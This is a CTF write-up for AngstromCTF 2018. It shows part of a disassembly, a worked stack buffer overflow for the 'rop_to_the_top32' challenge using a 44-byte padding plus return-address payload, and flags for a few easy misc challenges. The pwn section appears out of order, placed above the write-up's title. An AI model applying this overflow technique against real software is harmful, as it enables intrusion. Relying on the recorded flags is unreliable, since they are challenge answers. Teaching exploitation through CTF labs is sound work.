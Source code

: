 ```bash
   0x08048504 <+16>:    call   0x8048380 <strcpy@plt>
   0x08048509 <+21>:    add    $0x10,%esp
   0x0804850c <+24>:    sub    $0xc,%esp
   0x0804850f <+27>:    push   $0x804862e
   0x08048514 <+32>:    call   0x8048390 <puts@plt>
   0x08048519 <+37>:    add    $0x10,%esp
   0x0804851c <+40>:    nop
   0x0804851d <+41>:    leave
   0x0804851e <+42>:    ret
End of assembler dump.
```
The buffer is 0x28 (40) bytes long.

To overwrite the return address on the stack, we have to add another 4 bytes.
This means we have to write:
* 44 bytes to get to the return address
* Return Address (4 bytes)

Calling the program with the correct argument:
```bash
$ ./rop_to_the_top32 $(for i in {1..44}; do echo -n 'a'; done; echo -ne '\xdb\x84\x04\x08')
Now copying input...
Done!
actf{strut_your_stuff}
Segmentation fault (core dumped)
```

Points: 130  
Flag: `actf{strut_your_stuff}`

# AngstromCTF 2018
Team: https://ctftime.org/team/53225  
Due to time limitations (school, etc.) this writeup isn't complete.  
  
----------

## **Misc**
### **IRC**
The first challenge was pretty easy, you just had to join the IRC Server and retrieve the flag from the channel description.
  
Points: 10  
Flag: `actf{irc}`  

### **Waldo 1**
There challenge description had a .zip archive, with 5 pictures of flags attached. One of the pictures had the flag on it.  
  
Points: 10  
Flag: `actf{there_is_no_collusion_(between_teams)}`  
  